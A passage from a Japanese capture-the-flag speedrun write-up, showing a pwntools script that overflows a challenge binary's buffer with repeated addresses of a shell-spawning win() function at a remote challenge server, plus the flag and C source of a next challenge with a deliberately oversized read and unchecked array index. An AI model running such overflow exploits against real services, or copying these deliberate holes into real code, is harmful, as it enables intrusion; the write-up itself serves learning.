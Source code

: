 ```python
from pwn import remote, process, ELF, p64
import sys


args = sys.argv
DEBUG = True if "-d" in args else False

port = 9001
host = "35.194.118.87"

elf = ELF("./chall")

win_addr = elf.symbols["win"]
payload = p64(win_addr) * 0x10
sc = remote(host, port)
sc.recvuntil(b"value: ")
sc.sendline(payload)

sc.interactive()

# RTACTF{sizeof_is_a_bit_c0nfus1ng}
# 敗因: recvuntilをrecvlineと間違えて2分失う
```

最初にコードを書き終わるまで120~150秒ぐらいだったのでかなり早いんじゃないかと思いましたが、`sc.recvuntil()`を`sc.recvline()`と書いていたことに2分ぐらい気付かず(再走ポイント1)、272.81秒でゴールしました。なんとか300秒は切れたので良かったです。

## write (目標: 600sec)

バイナリのソースコードは次の通り

```C
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

ssize_t array[10];

void win(void) {
  char *args[] = {"/bin/sh", NULL};
  execve(args[0], args, NULL);
}

#define getval(msg)                             \
  ({                                            \
    char buf[0x20] = {};                        \
    write(STDOUT_FILENO, msg, strlen(msg));     \
    read(STDIN_FILENO, buf, sizeof(buf)*0x20);  \
    atoll(buf);                                 \
  })

int main() {
  ssize_t index, value;
  index = getval("index: ");
  value = getval("value: ");
  array[index] = value;
  return 0;
}

```


[^1]: 特にこの影響を受けているのがRevで最近のバイナリはどいつもこいつも2.34以上を要求してくる
[^2]: 後で放送を見返したらlibc中のGOT(Partial-RELRO)といった何らかの関数ポインタを書き換えるといったことが検討されていたが、思いつきもしなかったしこれもそもそも難しいらしい
[^3]: 実際は負数なので引いている
[^4]: これは半分嘘で、Cryptoの3問目ぐらいまで(走者の皆様が沼っているのを)観戦しそこから酒を飲みに行った